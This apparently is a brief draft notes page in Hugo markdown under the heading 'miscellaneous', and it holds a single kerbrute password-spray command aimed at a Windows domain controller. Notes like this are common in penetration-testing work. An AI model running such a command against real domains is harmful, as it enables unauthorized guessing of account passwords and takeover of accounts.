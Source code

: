 ```yaml
---
title: "miscellaneous"
date: 2020-07-17T20:59:33+02:00
draft: true
---
```


#### Password spray with kerbrute

```$ .\kerbrute.exe passwordspray --dc V-DC2 -d DOMAIN.LOCAL -o spray.txt users.txt 'PASSWORD'```


